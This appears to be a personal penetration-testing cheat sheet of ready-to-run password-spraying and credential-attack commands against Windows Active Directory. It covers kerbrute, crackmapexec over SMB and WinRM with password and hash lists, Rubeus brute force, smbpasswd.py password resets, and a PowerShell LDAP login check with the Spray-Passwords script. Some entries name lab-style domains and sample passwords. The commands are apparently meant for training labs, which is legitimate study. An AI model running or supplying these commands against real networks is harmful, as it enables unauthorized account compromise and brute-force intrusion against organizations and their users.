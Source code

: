 **smbpasswd**
```bash
## smbpasswd not work
smbpasswd -r $tip -U bhult

smbpasswd.py bhult:Fabricorp01@fabricorp.local -newpass "Hack01@123"
smbpasswd.py bhult:Fabricorp01@fabricorp.local -newpass Hack02@123
```
**kerbrute**
```bash
# single password for user list
kerbrute passwordspray -d domain.com --dc ip userlist password
kerbrute passwordspray -d offensive.local --dc 192.168.159.200 offensiveuser.txt Password!
```

**crackmapexec**

```bash
# smb 
## --continue-on-success， 默认不指定时遇到正确密码停止
crackmapexec smb 10.200.74.117 -u ../domainuser.txt -p ../password.txt --continue-on-success
crackmapexec smb $tip -u username.txt -p 'NewIntelligenceCorpUser9876'
crackmapexec smb $tip -u username.txt -p 'NewIntelligenceCorpUser9876' --shares

# winrm
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -H hash.txt
```

**rebeus**

```bash
## rebeus password spraying; echo domain name to hosts first
## take a given password and spray it against all found users then give  the .kirbi TGT for that user
echo ip controller.local >> c:\windows\system32\drivers\etc\hosts
rebeus.exe brute /password:Password1 /noticket
```

**powershell**

```powershell
net accounts

## ps scripts
//powershell authentication 
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")

## Spray-Passwrods
# https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
-Pass, passwordk
-Admin, test admin account
-File, password list file
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin

#/each pwd in file against all active user account, excerpt privileged user(admincount=1)
.\Spray-Passwords.ps1 -File .\passwords.txt -Verbose
```

